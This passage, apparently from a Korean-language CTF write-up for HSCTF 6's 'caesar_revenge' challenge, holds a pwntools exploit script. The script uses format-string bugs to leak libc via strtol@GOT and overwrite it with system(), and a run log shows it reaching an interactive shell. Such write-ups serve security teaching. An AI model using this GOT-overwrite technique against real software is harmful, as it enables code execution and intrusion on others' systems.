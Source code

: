 ```python
p.sendlineafter("encoded: ", payload)
p.sendlineafter("shift: ", "26")

# libc leak
payload = "%25$s".ljust(8, ' ')
payload += p64(addr_strtol_got)

p.sendlineafter("encoded: ", payload)
p.sendlineafter("shift: ", "26")

p.recvuntil("Result: ")
addr_strtol = u64(p.recv(6).ljust(8, '\x00')) # address of strtol()
log.info("address of strtol(): " + hex(addr_strtol) + ", " + str(addr_strtol))
addr_libc = addr_strtol - offset_strtol # address of libc base
log.info("address of libc base: " + hex(addr_libc) + ", " + str(addr_libc))
addr_system = addr_libc + offset_system # address of system()
log.info("address of system(): " + hex(addr_system) + ", " + str(addr_system))

addr_system_first = addr_system & 0xffff
addr_system_second = (addr_system & 0xffff0000) >> 16

# strtol@GOT -> system()
payload = "%" + str(addr_system_first) + "x%28$hn"
payload += "%" + str(addr_system_second + 0x10000 - addr_system_first) + "x%29$hn"
payload = payload.ljust(32, ' ')
payload += p64(addr_strtol_got)
payload += p64(addr_strtol_got + 2)

p.sendlineafter("encoded: ", payload)
p.recvuntil("shift: ")
pause()
p.sendline("26")

p.interactive()
```

`addr_system_first`는 `addr_system`의 뒤 2바이트이고, `addr_system_second`는 중간 2바이트가 된다. 이때 유의해야 할 것은 두 번째 `%hn`이 앞의 `addr_system_first`만큼의 출력도 포함하여 개수를 센다는 것이다. 그래서 `addr_system_second`에서 `addr_system_first`를 빼 주어야 한다. 그런데 음수가 될 수 있기 때문에 `0x10000`을 더해 주었다. `%hn`은 그 전까지의 출력이 `0xffff`보다 크면 하위 2바이트만을 적기 때문에 `0x10000`을 더하는 것은 결과에 나쁜 영향을 미치지 않는다.

위에서처럼 `pause()`가 걸린 상태에서 `printf()`가 실행되기 전후의 메모리를 비교해 보자.

```bash
$ python exploit_caesar_revenge.py
[*] '/home/cappit/HSCTF 6/caesar_revenge'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './caesar_revenge': pid 2895
[*] address of strtol(): 0x7fcd471c2110, 140519638049040
[*] address of libc base: 0x7fcd4717d000, 140519637766144
[*] address of system(): 0x7fcd471cc440, 140519638090816
[*] Paused (press any to continue)
[*] Switching to interactive mode
Result: $
```
